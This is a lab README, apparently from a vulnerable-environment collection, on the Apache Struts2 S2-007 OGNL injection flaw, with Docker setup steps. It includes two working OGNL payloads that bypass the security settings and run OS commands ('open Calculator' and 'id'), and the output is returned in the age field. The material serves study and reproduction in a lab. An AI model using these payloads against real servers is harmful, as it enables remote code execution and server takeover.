 # S2-007 Remote Code Execution Vulnerablity

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: 2.0.0 - 2.2.3

Details: http://struts.apache.org/docs/s2-007.html

## Reference

http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html

When `<ActionName> -validation.xml` configured validation rules. If the type validation conversion fails, the server will splice the user-submitted form value strings, then performing an OGNL expression parsing and returning.

For example here is a `UserAction`:

```java
(...)
public class UserAction extends ActionSupport {
    private Integer age;
    private String name;
    private String email;

(...)
```

And `UserAction-validation.xml` configuration:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE validators PUBLIC
    "-//OpenSymphony Group//XWork Validator 1.0//EN"
    "http://www.opensymphony.com/xwork/xwork-validator-1.0.2.dtd">
<validators>
    <field name="age">
        <field-validator type="int">
            <param name="min">1</param>
            <param name="max">150</param>
        </field-validator>
    </field>
</validators>
```

When the user submits `age` as a `str` instead of an `int`, the server splices `"'" + value + "'"` with the code and then use the OGNL expression parse it. To make a successful expliot, we need find a form field configured with similar validation rules to make a conversion error. And then you can inject any OGNL expression code by the way just like SQL single quotes injected.

Payload which bypass the securely configured:

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@java.lang.Runtime@getRuntime().exec("open /Applications/Calculator.app")) + '
```

## Setup

```
docker-compose build
docker-compose up -d
```

## Exploit

Here is the EXP that can execute arbitrary code:

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '
```

Put EXP into the input box (age), then get the command execution result:

![](1.jpeg)
